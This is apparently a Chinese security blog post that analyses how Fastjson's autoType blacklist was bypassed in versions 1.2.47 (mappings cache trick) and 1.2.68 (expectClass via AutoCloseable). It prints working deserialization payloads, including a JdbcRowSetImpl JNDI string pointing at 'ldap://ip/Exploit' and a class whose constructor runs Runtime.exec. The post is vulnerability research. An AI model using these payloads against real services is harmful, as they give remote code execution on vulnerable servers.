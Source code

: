 ```yaml
---
layout:     post
title:      Fastjson 47版本和68的绕过对比
subtitle:   
date:       2020-07-14
author:     跳跳龙
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - java安全
            
---
```

  

#### 前言
前段时间，Fastjson 1.2.68再次出现安全更新。而且我大致浏览了一下，这次升级，不是简简单单的黑名单更新那么简单，而是我觉得会跟1.2.24，1.2.47一样，会成为fastjson安全的里程碑。截止到我正在写下这篇文章的时候，fastjson已经更新到了1.72。可以说更新的非常频繁。大家可以在github上compare一下69和68,看看做了哪些更新防护。

由于fastjson没有CVE编号，所以很多漏洞没有一个标准的描述影响到哪些版本。我自己呢也并没有专门的去搜集这些事情。但是在我的印象里，47版本的绕过方案，和这次68的绕过方案，算是比较有意思的。

47版本我上篇文章写过了，这里直接拿过来一起对比着看。

#### 47版本
先花费时间把47的情况记录一下。POC如下：

```
String payload  = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},"
                + "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\","
                + "\"dataSourceName\":\"ldap://ip/Exploit\",\"autoCommit\":true}}";
        JSON.parse(payload);
```

这个POC做了2层的嵌套。第一层是使用java.lang.Class。这个类不在黑名单里，可以先把JdbcRowSetImpl压入mappings容器中，这样在第二轮扫描到@type字段的时候，还会再次调用到checkAutoType函数，由于JdbcRowSetImpl在mappings容器中，所以不会进入到检测黑名单的if分支中就提前return了，实现了巧妙的绕过。(但是在47之前的一些版本中，由于if语句有变动，会导致一部分开启auto反而无法成功的情况，同时也有autotype开启与否都可以成功的情况，大家知道这个trick就可以了，本质上是由于if语句写法有更新导致的)。

在fastjson词法分析的函数中，首先扫描到第一个@type。将java.lang.Class传入checkAutoType函数。我这里没开autotype，所以会直接获取class,并成功返回
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-01.jpg)

返回clazz之后，会进入到MiscCodec的deserialze反序列化函数中
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-02.jpg)

在deserialze函数中，会把自己的val属性 也就是JDBCRowSetImpl loadclass。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-03.jpg)

在loadClass函数中，会对类压入mappings。这个mappings里的类就不会通过黑名单的校验了。
由于这个cache默认为true。所以会压入mappings
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-04.jpg)

这一轮的扫描结束之后，等到下一次词法扫描再次扫描到@type的时候，同理，会把JdbcRowSetImpl带入checkAutoType中。
由于默认没开AutoType 所以不会进入到第一个if判断中
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-05.jpg)
直接会从mapping中获取，提前return。不会进入到最后面没开autotype的黑名单检测了。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog38-06.jpg)

大致就是这样巧妙地将黑名单的类返回了。

相比于47的绕过思路，根据目前公开的68绕过的思路而言，68的绕过方式是有很大不同的。

#### 68版本
目前，网络上是没有公开的针对68版本的gadgets的。目前公开的思路大多都是利用expectClass对checkAutoType进行绕过。可以说这次的绕过问题已经转移到从最开始针对黑白名单的绕过，到针对全局缓存mapping的绕过，最终目前达到了针对expectClass的绕过。安全研究没有拘泥于一个单点，而是将思路散开的方式。

那么使用师傅们公开的利用思路复现一下场景。

```
{"@type":"java.lang.AutoCloseable","@type":"org.lain.poc.A"}
```

A类的代码大致如下

```
public class A implements AutoCloseable {

    public A() throws IOException {
        Runtime.getRuntime().exec("open /Applications/Calculator.app");
    }

    @Override
    public void close() throws Exception {

    }
}
```

首先经过fastjson自实现的词法解析器，当解析到@type的时候，会第一次调用到checkAutoType，并成功返回。(AutoCloseable不在期望类的黑名单中)

所以会根据类型，进入到deserializer中，这个反序列化器是JavaBean反序列化器
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog39-01.jpg)

在deserializer中，会第二次的调用到checkAutoType。在checkAutoType之前呢，会根据词法分析器，来生成对于的ref。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog39-02.jpg)

这个ref就是利用lexer的stringVal函数切割出新的类名，可以看见正好是从offset44开始切割。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog39-03.jpg)

拿到类名之后，expectClass就是AutoCloseable,进入到checkAutoType。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog39-04.jpg)

由于expectClass不为空，所以会成功返回。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog39-05.jpg)

以上就是68针对checkAutoType的绕过。

#### 绕过思路的对比

从Fastjson最开始爆出的漏洞来看，就有很多人开始针对autotype表达了他的不满。但实际上autotype是存在他的使用场景的。

从Fastjson的绕过历史来看，24版本发现问题之后，基本上的绕过停留在通过在类名前后加一些loadClass函数会特殊处理的字符，到47版本使用全局缓存进行绕过，是恶意类加进缓存，达到白名单效果。再到目前使用白名单的另外一种方式，expectClass！每种绕过都可以说是脑洞大开，值得学习。



